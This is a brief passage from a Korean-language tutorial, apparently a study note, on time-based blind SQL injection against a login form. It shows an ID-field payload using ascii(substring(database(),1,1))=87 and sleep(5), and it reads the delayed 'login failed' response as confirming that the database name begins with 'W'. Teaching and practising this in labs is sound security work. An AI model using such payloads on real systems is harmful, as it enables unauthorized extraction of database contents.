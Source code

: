     결과) 로그인 실패 창이 빨리 뜬다 - 거짓 :  X 보다 아스키코드가 작다 
    ```

  - 마지막으로 W 인지 테스트

    ```
    ID : ' or ascii(substring(database(),1,1))=87 and sleep(5) #
    PASS : 아무거나 
    
    결과)  로그인 실패 창이 늦게 뜬다 - W 인거 확인
    ```

    ![화면 캡처 2022-11-01 164751](../../assets/img/화면 캡처 2022-11-01 164751.png)

    

    
